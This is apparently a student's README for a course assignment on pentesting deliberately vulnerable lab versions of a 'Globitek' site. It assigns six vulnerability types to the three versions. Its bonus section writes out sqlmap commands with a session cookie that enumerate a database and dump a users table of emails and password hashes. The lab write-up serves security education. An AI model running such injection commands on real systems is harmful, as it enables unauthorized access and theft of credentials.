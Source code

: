 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection

![](gif/SQLI.gif)

Vulnerability #2: Session Hijacking/Fixation

![](gif/session_hijacking_fixation.gif)

## Green

Vulnerability #1: Username Enumeration

![](gif/username_enumeration.gif)

Vulnerability #2: XSS

![](gif/XSS.gif)

## Red

Vulnerability #1: IDOR

![](gif/IDOR.gif)


Vulnerability #2: CSRF

![](gif/CSRF.gif)

## Notes

User name Enumeration:
It took me a long while to find the failed/failure change of class in the DOM.  I was looking for a message of sorts instead of such a subtle change.  I also wasn't sure which form I was supposed to look at.

IDOR:
That one was a bit more straight forward once I got into the swing of things, I was pretty sure that it had to do with user ids.

SQLI:
I tried all the forms to no avail, although sometimes I would get a blank page with a bad request notification giving me a false positive on the blue and green site.  I figured it was a bug since I couldn't reliably reproduce the error.

![](png/error.png)

XSS:
That one was straight forward, it felt intuitive that the best place to inject was in the contact form.  Although I did encounter the error from above again.  It seems that when quickly and consecutively doing the same action on the 3 different sites, the third request will fail.

CSRF:
2 vulnerability left and 2 sites simplifies the task quite a bit.


Session Hijacking/Fixation:
Last vulnerability and only one site left.  Really straight forward instructions and easy to implement.


## Bonus Objective 1:

Using sqlmap with the following query I got a list of all the databases:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --dbs --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5
```
available databases [7]:
* globitek_blue
* globitek_green
* globitek_red
* information_schema
* mysql
* performance_schema
* sys

I then used the following to get a listing of all the tables in globitek_blue:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue --tables
```
Database: globitek_blue
[8 tables]

| Tables                  |
|-------------------------|
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |


I wanted to get a list of all columns in the user table with:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --columns
```

Database: globitek_blue
Table: users
[7 columns]

| Column          | Type         |
|-----------------|--------------|
| created_at      | datetime     |
| email           | varchar(255) |
| first_name      | varchar(255) |
| hashed_password | varchar(255) |
| id              | int(11)      |
| last_name       | varchar(255) |
| username        | varchar(255) |


Finally going to dump user information with:

```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --dump
```

Database: globitek_blue
Table: users
[3 entries]

| id | email               | username  | last_name | created_at          | first_name | hashed_password                                              |
|----|---------------------|-----------|-----------|---------------------|-----------|--------------------------------------------------------------|
| 1  | test@test.com       | jmonroe99 | Munroe    | NULL                | Jim        | $2y$11$Co5fHvH5Lgk2Zu0iHR46BO6fnqQt1pUljPbZOhk7bTU6hQFhjBJG. |
| 2  | lbt2000@nowhere.com | lbtables  | Tables    | 2016-06-03 19:33:54 | Bobby      | $2y$10$I.Jwfc8R3xaFwlAlPn5U3OLAQXrE0c2fakN8rR4j2TW0gRVMd6U6a |
| 3  | person@nowhere.com  | pperson   | Person    | 2017-01-01 02:50:26 | Pat        | $2y$11$FHZQn1eWZ3mbn11evb3CSeM20LCsJZI8yP9wS/UsOI6VWnx.7mKDa |


